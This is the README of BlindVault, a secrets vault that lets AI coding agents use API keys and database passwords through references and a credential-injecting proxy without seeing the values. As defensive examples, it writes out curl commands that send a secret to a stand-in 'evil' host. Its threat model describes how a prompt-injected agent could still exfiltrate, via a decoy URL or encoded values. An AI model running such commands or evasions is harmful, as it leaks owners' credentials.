


<div align="center">


# BlindVault

**A secrets vault your AI agents can use — but never read.**

[](https://github.com/psypilot/blindvault/actions/workflows/ci.yml)
[](LICENSE)
[](https://www.python.org/)
[](CONTRIBUTING.md)

</div>

---

AI agents leak secrets *constantly*. They print API keys into chat, paste them
into config files, commit `.env` files, and echo them in error messages. The
root cause is simple: **the agent handles the raw value at all.**

BlindVault removes that. Your agent works with **references** like
`{{secret:STRIPE_KEY}}`. It can list secrets, reason about them, and place them
exactly where they belong — but the real value is substituted by a trusted
resolver at the last possible moment, and any value that leaks back into output
is scrubbed before the agent ever sees it.

```text
   the agent's world         │   blindvault run (trusted)   │   the outside world
─────────────────────────────┼──────────────────────────────┼──────────────────────
  {{secret:STRIPE_KEY}}  ───► │   swaps in the real value ───►│   curl api.stripe.com
  [redacted:STRIPE_KEY]  ◄─── │   scrubs value from output ◄──│   "...sk_live_xxx..."
```

The agent never holds plaintext. You, the human owner, still can — through a
friendly desktop app.

## ✨ Features

- 🔑 **Reference, don't reveal** — agents use `{{secret:NAME}}`, never the value.
- 🔐 **Master-password lock** — the vault is encrypted with a key *derived from your
  password and never stored on disk*. An agent that reads the vault files finds only
  ciphertext.
- 🙈 **The agent can't print a secret** — `reveal` (the only command that outputs
  plaintext) always requires the master password, which the agent never has.
- 🧽 **Output scrubbing** — if a secret slips into stdout/stderr, it comes back as `[redacted:NAME]`.
- ⏳ **Unlock sessions** — unlock once; the agent can `run` for a set window without
  ever seeing the password.
- 🚧 **Usage policies** — restrict a secret to specific commands/hosts (`bv policy`),
  blocking the common careless or prompt-injected exfiltration like
  `curl evil.com?x={{secret:KEY}}`. The policy is encrypted *with* the secret, so it
  can't be edited out. (Defense-in-depth, not a sandbox — see the threat model.)
- 🧱 **Resolver proxy** (`bv serve`) — the agent makes requests through a local
  credential-injecting proxy and **never holds the secret at all**: the broker
  splices in the real value on its side and forwards only to the policy's host.
  See [docs/DESIGN-resolver.md](docs/DESIGN-resolver.md).
- 🐘 **Database connector** — `psql`/apps reach PostgreSQL through
  `bv serve --pg-listen` with **no password**; the broker performs the
  `SCRAM-SHA-256`/`md5` handshake and streams. The DB password never reaches the agent.
- 🎲 **Generate-and-forget** — create random secrets the AI uses but *no one ever sees*.
- 📥 **Import your `.env`** — `bv import .env` pulls the secrets you already have into
  the encrypted vault in one command.
- 🖥️ **Desktop app for humans** — add, view, copy, and audit secrets in a real window.
- 🏷️ **Origin tracking** — see at a glance which secrets *you* added vs which the *AI generated*.
- 📦 **Tiny & dependency-light** — one runtime dependency; the GUI uses only the standard library.

## 🗺️ Architecture

The agent holds only **references**; the broker holds the real secret and is the
only thing that ever touches it. Run the broker as a **separate OS user** and the
kernel itself stops the agent from reading its memory, the data key, or the vault.



A request through the credential-injecting proxy — the secret is spliced in on the
broker's side of the wire, so it never enters the agent's process:



## 🚀 Quickstart

```bash
pip install cryptography          # the only runtime dependency
git clone https://github.com/psypilot/blindvault.git
cd blindvault
python -m blindvault --help       # or `pip install .` to get the `blindvault` / `bv` commands
```

A 60-second tour:

```bash
bv init                                       # create the vault + set a master password

echo "sk_live_xxx" | bv set STRIPE_KEY --stdin --desc "prod payments"
bv gen SESSION_TOKEN --length 32              # random secret nobody ever sees

bv ls                                         # names + notes, never values (works while locked)

bv policy STRIPE_KEY --allow-host api.stripe.com   # this key may ONLY go to Stripe

bv unlock                                     # enter your password once; opens a timed session

# Use a secret without ever seeing it. If the program prints it, it's scrubbed:
bv run -- curl -s -H "Authorization: Bearer {{secret:STRIPE_KEY}}" \
  https://api.stripe.com/v1/charges

# Prefer an environment variable? Inject into the child process only:
bv run --env STRIPE_API_KEY=STRIPE_KEY -- node charge.js

bv lock                                       # end the session when you're done
```

> `blindvault` and the short alias `bv` are the same command.
> Set `BLINDVAULT_PASSWORD` for non-interactive/CI use (see [SECURITY.md](SECURITY.md)).

## 🤖 Using it with an AI agent

This is the whole point. Tell your agent:

> *"Secrets live in BlindVault. You can see their **names** with `bv ls` but never
> their values. To use one, reference it as `{{secret:NAME}}` and run your command
> through `bv run`. Never run `bv reveal` and never read the vault files."*

Then the agent does:

```bash
bv ls                         # discovers TEST_KEY exists (no value shown)
bv run -- curl -H "Authorization: Bearer {{secret:TEST_KEY}}" https://api.example.com/test
```

**You** run `bv unlock` once (typing your master password). The agent can then
`run` within the session window — but it can never `reveal` a value, because
`reveal` always demands the master password the agent doesn't have.

Drop [`AGENTS.md`](AGENTS.md) into your project and point any agent at it — it
codifies these rules so you never have to re-explain them.

## 🧱 The resolver — use a secret without ever holding it

`bv run` injects a secret into a command the agent controls — convenient, but the
value does land in that process. The **resolver proxy** removes even that: the
agent talks to a local proxy and the **real secret never enters the agent**.

```bash
bv policy STRIPE_KEY --allow-host api.stripe.com   # the key may only go to Stripe
bv serve                                           # start the injecting proxy (after `bv unlock`)

# The agent makes requests through the proxy — carrying NO key of its own:
curl http://127.0.0.1:8771/STRIPE_KEY/v1/charges
#  → the broker injects "Authorization: Bearer <real key>" on its side
#  → forwards ONLY to api.stripe.com (the host comes from policy, not the request)
#  → the agent gets the response; the key was never in its process
```

This is the "delegation without disclosure" model used by `ssh-agent` and CyberArk
Secretless. By default the broker runs as the same OS user (a process boundary + a
real win: the key stays in the broker, egress is fixed by policy, every use is
audited).

**You can now run the broker as a dedicated OS user**, so the agent's user *cannot*
read the broker's memory, the data key, or the vault file — the OS-enforced
boundary:
- **Linux** — a Unix socket, authenticating each connection by its **UID**
  (`SO_PEERCRED`): **[docs/DEPLOY-linux.md](docs/DEPLOY-linux.md)**.
- **Windows** — a named pipe with a protected DACL, authenticating each connection
  by its **token SID** (`ImpersonateNamedPipeClient`):
  **[docs/DEPLOY-windows.md](docs/DEPLOY-windows.md)** (the agent uses `bv proxy`).

The full design is in **[docs/DESIGN-resolver.md](docs/DESIGN-resolver.md)**.

## 🐘 Database connector (PostgreSQL)

For non-HTTP secrets, BlindVault speaks the protocol. A `psql` client (or any app)
connects to a local listener with **no password**; the broker holds the real DB
password, performs the PostgreSQL auth handshake (`SCRAM-SHA-256` or legacy `md5`)
against the backend, and then transparently streams the connection.

```bash
bv policy PGPASS --allow-host db.internal        # this password may only go to db.internal
bv unlock
bv serve --pg-listen 127.0.0.1:6432 \
         --pg-secret PGPASS --pg-backend db.internal:5432 --pg-user blindvault

# the agent connects with NO password — the broker authenticates for it:
psql "host=127.0.0.1 port=6432 user=blindvault dbname=blindvault"
```

This is the CyberArk-Secretless model: the credential never enters the client, and
the backend host is pinned by the secret's policy. SSH and other protocols are on
the roadmap.

## 🖥️ Desktop app (for humans)

The CLI is for the AI. The desktop app is for **you** — same encrypted vault, a
friendly window:

```bash
bv gui            # or run the standalone BlindVault.exe
```

You can:

- **Add** a password manually (name + value + note).
- **Generate** a random secret without ever seeing it.
- See an **Origin** column marking each secret *"AI-generated"* or *"added by you"*.
- **Reveal** a value (show/hide toggle) and **Copy** it — the clipboard
  auto-clears after 20 seconds so the secret does not linger.
- **Edit notes**, **delete**, **filter**, and **refresh** to pick up changes the AI made.

Revealing is allowed here because it is the human owner's own window. The AI
keeps using the CLI and still never sees plaintext.

### Build a standalone .exe

No Python required on the target machine — one double-clickable file:

```powershell
powershell -ExecutionPolicy Bypass -File build_exe.ps1
# -> dist\BlindVault.exe   (~14 MB, self-contained)
```

## 🔧 How it works

- **Master password + envelope encryption** — your password runs through
  **scrypt** (a memory-hard KDF) to derive a key-encryption key. That wraps a
  random data key, which encrypts each secret via `cryptography.Fernet`
  (AES-128-CBC + HMAC-SHA256). Only ciphertext, a salt, and the wrapped key are
  written to `~/.blindvault/vault.json` — **the password-derived key is never
  stored**. No password, no decryption.
- **Locked by default** — secret *names* are plaintext metadata (the agent is meant
  to see them); *values* require an unlock. `reveal` always re-derives the key from
  the password itself and never uses a session — so an agent cannot make BlindVault
  print a secret.
- **Injection** happens in `bv run`, which launches the child with `shell=False`
  (no shell-injection surface) and substitutes references into argv and/or env.
- **Redaction** captures the child's stdout/stderr and replaces any occurrence of
  a resolved value with `[redacted:NAME]` before forwarding it.

## ⚠️ Threat model — please read

BlindVault is honest about what it does and does not protect against.

**It protects against:**

- **Accidental leaks** — the agent's normal workflow never puts plaintext in its
  context, and values that bounce back through output are masked.
- **Reading the vault at rest** — without the master password, `vault.json` is just
  ciphertext. An agent that `cat`s the vault files learns nothing.
- **An agent printing a secret** — `reveal` always requires the master password
  (never a session or env var), which the agent doesn't have.

**It does not, by itself, protect against:**

- **Exfiltration through `run` by a *determined* agent.** **Usage policies**
  (`bv policy NAME --allow-host …`) block the obvious
  `bv run -- curl https://evil.example/?x={{secret:KEY}}` and the careless or
  prompt-injected cases. They are **defense-in-depth, not a sandbox**: host-matching
  scans argv heuristically, so a decoy allowed URL plus an agent-controlled program
  can still exfiltrate, and `--allow-command` matches by program name (advisory).
  Airtight egress control needs the separate-OS-user resolver (roadmap).
- **`BLINDVAULT_PASSWORD` in the agent's environment.** If you set it for automation
  and the agent shares that environment, the agent effectively holds the master
  password and could `reveal`. Use `bv unlock` (a session) for unattended runs, and
  never expose `BLINDVAULT_PASSWORD` to an agent.
- **Rollback by a file-write attacker.** Secrets are bound to their names (a swap is
  detected), but restoring an older `vault.json` can still undo a deletion or a
  rotation. Keep the vault file owner-only.
- **A same-user agent during an unlocked session.** While a session is active, the
  data key sits in `~/.blindvault/session.json` (owner-only, short TTL) — another
  process of the same user could read it. The full fix is a resolver under a
  **separate OS user / sandbox** (roadmap). Keep sessions short; `bv lock` when done.
- **Argv exposure** to other local processes — prefer `--env` for sensitive headers.
- **Encoded leaks** — scrubbing matches the literal value; base64/URL-encoding it
  first is not caught yet.
- **Streaming** — output is captured then scrubbed, so `run` is not interactive.

In short: with a master password, BlindVault is **secure at rest** and the agent
**cannot read or print** your secrets — the remaining risk is a *hostile* agent
*using* a secret to phone home, which needs usage policies + an OS-level boundary.

## 🗺️ Roadmap

1. More protocol connectors — **SSH** (paramiko-based jump proxy), then MySQL.
2. Encoded/transformed-value detection in `bv run` scrubbing (defense-in-depth).
3. Importers for HashiCorp Vault and Doppler.
4. A signed Windows-service / Linux-package installer for the resolver.

Done: ✅ master-password lock · ✅ usage policies · ✅ `.env` import ·
✅ resolver proxy (Phase 1) · ✅ **resolver Phase 2 on Linux & Windows** (separate
OS user + UID/SID peer-auth) · ✅ **PostgreSQL connector** (SCRAM/md5) · ✅ audit log

## 🔎 Is this what you're looking for?

BlindVault is an open-source **secrets manager for AI agents** — a way to let LLM
coding agents (Claude, Claude Code, Cursor, Copilot, Windsurf, Aider, …), autonomous
agents, and CI pipelines **use API keys, database passwords, and tokens without ever
seeing the plaintext**. It is a daily-use tool, not a demo. If you searched for any of
the following, you're in the right place:

- stop AI / LLM agents from **leaking API keys, passwords, secrets** in chat, logs, or commits
- protect secrets from **prompt injection** and **credential exfiltration** by an agent
- a **secretless broker** / **credential-injection proxy** for AI agents (à la CyberArk Secretless)
- give an AI agent **database / Postgres access without the password**
- a **vault where the agent reads the *name*, not the *value***
- **delegation without disclosure** for static API keys (the `ssh-agent` model, for bearer tokens)
- **OS-isolated** secret broker (separate user, Unix-socket `SO_PEERCRED` / Windows named-pipe SID auth)
- master-password-encrypted local secret store with **per-secret usage policies** and an **audit log**

Keywords: ai secrets management, llm api key security, agent credential broker,
secretless, credential injection, prompt-injection mitigation, vault for ai agents,
encrypted cli secret manager, postgres credential proxy, python.

## 🤝 Contributing

Contributions are very welcome — see [CONTRIBUTING.md](CONTRIBUTING.md). Found a
security issue? Please read [SECURITY.md](SECURITY.md) first.

```bash
python -m unittest discover -s tests -v
```

## 📄 License

MIT © Loizos Kallinos — see [LICENSE](LICENSE).
